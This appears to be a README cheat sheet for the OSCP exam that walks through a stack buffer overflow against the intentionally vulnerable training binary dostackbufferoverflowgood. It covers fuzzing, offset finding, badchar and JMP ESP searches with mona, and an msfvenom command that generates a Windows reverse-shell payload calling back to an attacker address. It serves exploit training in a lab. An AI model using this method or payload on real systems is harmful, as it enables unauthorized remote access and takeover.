 > - Repo: https://github.com/V1n1v131r4/OSCP-Buffer-Overflow
> - Additional Tutorial: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.pdf

# OSCP Buffer Overflow Cheat Sheet

> In this cheat sheet we will use `dostackbufferoverflowgod` as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).
>
> The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe
>
> Below are the download links for all the tools needed for the study:
>
> - Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
> - Immunity Debugger: https://www.immunityinc.com/products/debugger/
> - Mona.py: https://github.com/corelan/mona
>
> All installation processes are described in the links above.

## Fuzzing

> We will run the `connect.py` script to verify the application's response.
>
> After this step, we will run the `fuzzing.py` script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.
>
> Change the amount of "A" in the script until the application broken.

## Offset

> After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite
>
> ```
> msf-pattern_create -l 1024
> ```
>
> Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address
>
> ```
> msf-pattern_offset -q 39654138
> ```
>
> Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)

## Badchars

> To identify badchars we will use mona with the option `!mona bytearray`.
>
> Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.
>
> There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.

## JMP ESP

> After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.
>
> The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).
>
> Run `!mona modules` and identify the unprotected modules.
>
> Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP
>
> Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.
>
> By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.
>
> At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:
>
> ```
> 0x080416BF  <->  "\xBF\x16\x04\x08"
> ```

## Exploit time

> We can now generate our shellcode excluding the badchars found:
>
> ```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
> ```
>
> The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
>
> Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow
